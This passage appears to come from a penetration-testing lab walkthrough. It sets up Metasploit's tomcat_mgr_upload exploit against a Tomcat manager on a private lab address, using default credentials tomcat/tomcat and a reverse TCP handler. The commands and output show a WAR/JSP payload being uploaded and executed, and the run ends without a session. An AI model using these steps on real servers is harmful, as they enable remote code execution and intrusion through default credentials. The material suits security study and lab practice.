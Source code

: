 ```
   --  ----
   0   Java Universal
```
Set Metasploit Options

Set some options for this exploit. We'll use the credentials we already found.
```
msf exploit(tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_upload) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_upload) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf exploit(tomcat_mgr_upload) > set RPORT 8180
RPORT => 8180

The TARGETURIvariable should be left to the default, manager/ - not set to admin.

msf exploit(tomcat_mgr_upload) > set TARGETURI /manager
TARGETURI => /manager
```
Additionally, we'll need to set the target architecture:
```
msf exploit(tomcat_mgr_upload) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Java Universal
   1   Windows Universal
   2   Linux x86


msf exploit(tomcat_mgr_upload) > set TARGET 0
TARGET => 0
```
### Run the Exploit (Failure)

Now we are ready to run:
```
msf exploit(tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.0.0.25:4444
[*] 10.0.0.27:8180 - Retrieving session ID and CSRF token...
[*] 10.0.0.27:8180 - Finding CSRF token...
[*] 10.0.0.27:8180 - Uploading and deploying t1wR96yByt0JeBpX5z7z...
[*] 10.0.0.27:8180 - Uploading 6081 bytes as t1wR96yByt0JeBpX5z7z.war ...
[*] 10.0.0.27:8180 - Executing t1wR96yByt0JeBpX5z7z...
[*] 10.0.0.27:8180 - Executing /t1wR96yByt0JeBpX5z7z/UXnJq.jsp...
[*] 10.0.0.27:8180 - Finding CSRF token...
[*] 10.0.0.27:8180 - Undeploying t1wR96yByt0JeBpX5z7z ...
[*] Exploit completed, but no session was created.
```
Does not work. Not sure why.
